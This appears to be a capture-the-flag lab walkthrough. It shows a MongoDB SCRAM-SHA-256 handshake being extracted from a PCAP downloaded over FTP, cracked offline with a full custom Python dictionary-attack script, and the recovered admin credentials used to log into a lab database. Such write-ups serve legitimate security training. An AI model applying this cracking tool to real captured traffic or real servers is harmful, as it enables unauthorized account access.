 # MongoDB Decryption



Inside the **pub** directory, we find a PCAP file **debug.pcap**.

```
ftp> cd pub
250 Directory successfully changed.
ftp> ls
227 Entering Passive Mode (192,168,120,186,156,162).
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp          4603 Feb 01 02:10 debug.pcap
226 Directory send OK.
ftp>
```

We'll download and examine this file.

```
ftp> get debug.pcap
local: debug.pcap remote: debug.pcap
227 Entering Passive Mode (192,168,120,186,156,75).
150 Opening BINARY mode data connection for debug.pcap (4603 bytes).
226 Transfer complete.
4603 bytes received in 0.00 secs (1.1576 MB/s)
ftp> bye
221 Goodbye.

┌──(kali㉿kali)-[~]
└─$
```

### Exploitation

#### MongoDB Authentication Handshake Brute-Force

Opening and viewing the PCAP file in WireShark, we can see that it contains what appears to be a MongoDB authentication handshake.

![](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/PG\_Practice\_66\_image\_1\_dCwzUj97.png)

According to [the MongoDB documentation](https://docs.mongodb.com/manual/core/security-scram/#authentication-scram), starting from version 4.0, MongoDB uses Salted Challenge Response Authentication Mechanism (_SCRAM_) as its default authentication protocol. MongoDB also provides a helpful [blog post](https://www.mongodb.com/blog/post/improved-password-based-authentication-mongodb-30-scram-explained-part-1) outlining the protocol. The protocol is also detailed in [RFC 5802](https://tools.ietf.org/html/rfc5802).

If a full exchange is captured, then an offline dictionary attack can be mounted in an attempt to crack the password. Specifically, we would need to obtain the following information: username, salt, client nonce, server nonce, and the target hash value.

Luckily, it looks like we have the full exchange captured. The username (`admin`) and the client nonce (`+CDTb3v9SwhwxAXb4+vZ32l0VsTvrLeK`) can be found in the eighth packet.

![](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/PG\_Practice\_66\_image\_2\_HRoxi4ba.png)

The server nonce (`+CDTb3v9SwhwxAXb4+vZ32l0VsTvrLeKoGtDP4x0LH5WZgQ9xFMJEJknBHTp6N1D`) and the salt (`zOa0kWA/OTak0a0vNaN0Zh2drO1uekoDUh4sdg==`) can be found in the ninth packet.

![](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/PG\_Practice\_66\_image\_3\_ARnK9Nnj.png)

Finally, the target hash (`/nW1YVs0JcvxU48jLHanbkQbZ4GFJ8+Na8fj7xM1s98=`) can be found in the tenth packet.

![](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/PG\_Practice\_66\_image\_4\_8QhWXADy.png)

Nice, we appear to have all the needed information to mount our dictionary attack. However, unfortunately for us, neither John nor Hashcat support brute-forcing SCRAM, so we'll have to write our own tool. In order to do that, we have to fully understand the protocol.

Because this is an offline attack, we can afford to use a larger wordlist, such as **rockyou.txt**. The following PoC script should crack the handshake for us within a reasonable time.

```python
#!/usr/bin/python3

import base64
import hashlib
import hmac
import sys

USERNAME = 'admin'
SALT = 'zOa0kWA/OTak0a0vNaN0Zh2drO1uekoDUh4sdg=='
CLIENT_NONCE = '+CDTb3v9SwhwxAXb4+vZ32l0VsTvrLeK'
SERVER_NONCE = '+CDTb3v9SwhwxAXb4+vZ32l0VsTvrLeKoGtDP4x0LH5WZgQ9xFMJEJknBHTp6N1D'
ITERATIONS = 15000
TARGET = '/nW1YVs0JcvxU48jLHanbkQbZ4GFJ8+Na8fj7xM1s98='
WORDLIST = '/usr/share/wordlists/rockyou.txt'

def byte_xor(ba1, ba2):
    return bytes([_a ^ _b for _a, _b in zip(ba1, ba2)])

def proof(username, password, salt, client_nonce, server_nonce, iterations):
    raw_salt = base64.b64decode(salt)
    client_first_bare = 'n={},r={}'.format(username, client_nonce)
    server_first = 'r={},s={},i={}'.format(server_nonce, salt, iterations)
    client_final_without_proof = 'c=biws,r={}'.format(server_nonce)
    auth_msg = '{},{},{}'.format(client_first_bare, server_first, client_final_without_proof)

    salted_password = hashlib.pbkdf2_hmac('sha256', password.encode('utf-8'), raw_salt, iterations)
    client_key = hmac.digest(salted_password, b'Client Key', 'sha256')
    stored_key = hashlib.sha256(client_key).digest()
    client_signature = hmac.new(stored_key, auth_msg.encode('utf-8'), 'sha256').digest()
    client_proof = byte_xor(client_key, client_signature)

    return base64.b64encode(client_proof).decode('utf-8')

counter = 0
with open(WORDLIST) as f:
    for candidate in f:
        counter = counter + 1
        if counter % 1000 == 0:
            print('Tried {} passwords'.format(counter))

        p = proof(USERNAME, candidate.rstrip('\n'), SALT, CLIENT_NONCE, SERVER_NONCE, ITERATIONS)
        if p == TARGET:
            print('Password found: {}'.format(candidate.rstrip('\n')))
            sys.exit(0)

print('Wordlist exhausted with no password found.')
```

Let's give it a try.

```
┌──(kali㉿kali)-[~]
└─$ python3 scram-crack.py
Tried 1000 passwords
Tried 2000 passwords
Tried 3000 passwords
Tried 4000 passwords
Password found: monkey13
```

After about 4000 iterations, our script finds the admin password to be `monkey13`. Let's connect to MongoDB and list available databases. To do that, we first need to install the `mongodb-org-shell` package by following [this guide](https://docs.mongodb.com/manual/tutorial/install-mongodb-on-debian/). Once the shell package is installed, we'll connect to MongoDB with the recovered credentials.

```
┌──(kali㉿kali)-[~]
└─$ mongo mongodb://admin:monkey13@192.168.120.186:27017/
MongoDB shell version v4.2.13
connecting to: mongodb://192.168.120.186:27017/?compressors=disabled&gssapiServiceName=mongodb
Implicit session: session { "id" : UUID("42164b37-99dd-429d-91fc-65cc46e0240a") }
MongoDB server version: 4.0.22
...
---

> show databases
admin   0.000GB
config  0.000GB
local   0.000GB
nodebb  0.000GB
>
```
